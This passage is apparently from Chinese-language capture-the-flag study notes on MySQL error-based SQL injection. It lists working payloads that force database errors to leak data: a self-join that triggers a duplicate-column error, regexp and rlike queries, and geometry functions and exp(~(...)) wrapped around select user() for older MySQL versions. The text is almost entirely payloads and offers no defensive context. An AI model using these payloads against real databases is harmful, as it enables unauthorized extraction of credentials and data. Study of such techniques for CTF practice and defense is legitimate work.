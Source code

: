 ##### jion列名重复报错

```
select * from(select a.1 from mysql.user a join mysql.user b)c
```

![](images/ctf-2021-06-18-20-09-17.png)

##### rlike，regexp正则匹配报错

```sql
select 1 regexp 0x00
select 1 regexp ''
select 1 rlike 0x00
```

![](images/ctf-2021-06-18-20-09-48.png)

![](images/ctf-2021-06-18-20-09-51.png)

##### 其他报错注入

mysql低版本以下可用的报错

```sql
select geometrycollection((select * from(select * from(select user())a)b)); 
select multipoint((select * from(select * from(select user())a)b)); 
select polygon((select * from(select * from(select user())a)b)); 
select multipolygon((select * from(select * from(select user())a)b)); 
select linestring((select * from(select * from(select user())a)b)); 
select multilinestring((select * from(select * from(select user())a)b)); 
select exp(~(select * from(select user())a));
```

